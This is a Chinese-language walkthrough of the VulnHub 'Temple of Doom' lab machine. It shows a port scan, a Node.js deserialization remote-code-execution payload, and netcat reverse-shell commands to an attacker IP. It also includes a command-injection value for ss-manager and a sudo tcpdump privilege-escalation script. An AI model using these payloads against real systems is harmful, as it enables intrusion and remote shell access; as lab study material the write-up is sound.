








# Temple of Doom

> https://download.vulnhub.com/templeofdoom/temple-of-DOOM-v1.ova

靶场IP：`192.168.32.10`

扫描对外端口服务

```
┌──(root㉿kali)-[~]
└─# nmap -sV -p1-65535 192.168.32.10
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-06 23:25 EDT
Nmap scan report for 192.168.32.10
Host is up (0.00013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
666/tcp open  http    Node.js Express framework
MAC Address: 08:00:27:D1:C1:2D (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.63 seconds

```

浏览器访问666端口



再次刷新就会报错



使用bp抓取数据包，分析，报错原因是CSRFtoken过期导致报错



把CSRF相关字段删掉重新发送，会提示`helle Admin`。



根据nodejs反序列化漏洞，可以生成payload

> https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

```
{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('id',(error, stdout, stderr)=>{ console.log(stdout); }); }()"}
```



构造反弹shell

```
{"username":"_$$ND_FUNC$$_function (){return require('child_process').execSync('nc -e  /bin/bash 192.168.32.5 1234', (error, stdout, stderr)=>{ console.log(stdout); }); }()"}
```



查看`/etc/passwd`文件，找到ss-manager 

```
fireman:x:1002:1002::/home/fireman:/bin/bash
```

找到exp：https://www.exploit-db.com/exploits/43006

```
nc -u 127.0.0.1 8839
```

```
add: {"server_port":8003, "password":"test", "method":"|| nc 192.168.32.5 5555 -e /bin/bash||"}
```



提权exp

```
COMMAND='nc 192.168.32.5 5001 -e /bin/bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

可以建立连接



